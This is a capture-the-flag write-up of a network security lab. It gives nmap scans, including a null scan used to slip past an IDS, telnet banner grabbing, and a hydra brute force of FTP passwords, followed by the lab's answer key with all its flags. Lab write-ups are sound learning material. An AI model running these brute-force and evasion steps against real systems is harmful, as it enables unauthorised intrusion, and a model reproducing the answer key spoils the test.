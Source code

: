 # Net Sec Challenge

### Method

Perform service scan on target with nmap:

`nmap -sV <TARGET-IP>`

Discover ports and flag in SSH header.

Run scan for ports > 10000:

`nmap -sS -p10000-65535`

Discover FTP server on non-default port 10021.

Use telnet to connect to HTTP server:

```
telnet <TARGET-IP> 80
GET / HTTP/1.1
host: telnet
```

Grab flag from header

Use telnet to connect to FTP server:

`telnet <TARGET-IP> 10021`

Grab vsFTPd version

Brute force FTP user's passwords with hydra:

```
echo -n "eddie\nquinn" > ftp-users.txt
hydra -L ftp-users.txt -P rockyou.txt <TARGET-IP> ftp -s 10021
```

Log in as users to grab flag from FTP server.

Navigate to `<TARGET-IP>:8080` and scan target with nmap:

`nmap -sS <TARGET-IP>`

Sets off IDS so try a null scan:

`nmap -sN <TARGET-IP>`

Scanned target undetected, grab flag from page

### Questions

What is the highest port number being open less than 10,000?

8080

There is an open port outside the common 1000 ports; it is above 10,000. What is it?

10021

How many TCP ports are open?

6

What is the flag hidden in the HTTP server header?

THM{web_server_25352}

What is the flag hidden in the SSH server header?

THM{946219583339}

We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

vsFTPd 3.0.3

We learned two usernames using social engineering: eddie and quinn. What is the flag hidden 
in one of these two account files and accessible via FTP?

THM{321452667098}

Browsing to http://10.10.169.240:8080 displays a small challenge that will give you a flag 
once you solve it. What is the flag?

THM{f7443f99}
